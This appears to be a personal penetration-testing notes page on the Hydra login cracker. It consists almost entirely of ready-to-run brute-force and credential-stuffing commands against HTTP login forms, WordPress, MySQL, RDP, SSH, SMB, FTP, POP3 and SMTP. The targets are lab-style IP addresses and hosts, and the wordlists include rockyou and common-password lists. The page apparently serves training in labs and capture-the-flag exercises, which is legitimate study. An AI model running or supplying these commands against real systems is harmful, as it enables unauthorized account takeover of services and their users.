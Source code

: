 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

## HTTP POST

```
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"
```

## WordPress

```
hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I
```

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## [[2. Enumeration/TCP/3389. Remote Desktop Protocol (RDP)/1. Guide|RDP]]

```shell-session
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
## SSH

```
hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh
```

```
hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh
```

```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```
## SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```

```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

## FTP

```shell-session
hydra -l sam -P mut_password.list ftp://10.129.202.64 -t 64
```

## Credential Stuffing

When you have a list of valid usernames and passwords which you wish to attempt to login using the list:

```shell-session
hydra -C user_pass.list ssh://10.129.42.197
```

## [[2. Enumeration/TCP/25. Simple Mail Transfer Protocol (SMTP)/1. Guide|SMTP]], [[2. Enumeration/TCP/110. Post Office Protocol (POP3)/1. Guide|POP3]], [[2. Enumeration/TCP/143. Internet Message Access Protocol (IMAP)/1. Guide|IMAP]]

```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

```shell-session
hydra -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://10.129.203.12 -f
```